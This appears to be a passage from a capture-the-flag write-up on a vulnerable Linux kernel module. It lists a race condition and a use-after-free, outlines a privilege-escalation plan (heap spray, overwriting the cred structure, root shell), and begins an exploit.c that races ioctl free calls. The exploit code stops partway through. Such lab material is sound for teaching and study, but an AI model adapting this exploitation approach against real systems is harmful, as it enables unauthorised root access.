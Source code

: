 ```c
    chunks[idx].in_use = 0;

    return 0;
}
```

## Vulnerability Analysis

Identified vulnerabilities:

1. **Race Condition**: The module doesn't use proper locking mechanisms
2. **Use-After-Free**: Freed memory can still be accessed
3. **Missing Validation**: Input validation is insufficient

These vulnerabilities can lead to:
- Kernel memory corruption
- Arbitrary read/write in kernel space
- Privilege escalation to root

## Exploitation Strategy

High-level plan:

1. **Trigger Race Condition**: Use threading to create race between operations
2. **Kernel Heap Spray**: Spray kernel heap with controlled data
3. **Privilege Escalation**: Overwrite critical kernel structures (e.g., `cred` structure)
4. **Get Root Shell**: Execute shell with elevated privileges

## Exploitation Implementation

```c
// exploit.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <pthread.h>
#include <string.h>

#define CHALLENGE_ALLOCATE _IOW('C', 0, struct alloc_request)
#define CHALLENGE_FREE     _IOW('C', 1, int)
#define CHALLENGE_EDIT     _IOW('C', 2, struct edit_request)

struct alloc_request {
    int idx;
    size_t size;
};

struct edit_request {
    int idx;
    void *data;
    size_t size;
};

int fd;
volatile int stop_threads = 0;

void *free_thread(void *arg) {
    int idx = *(int *)arg;

    while (!stop_threads) {
        ioctl(fd, CHALLENGE_FREE, idx);
        usleep(1);
```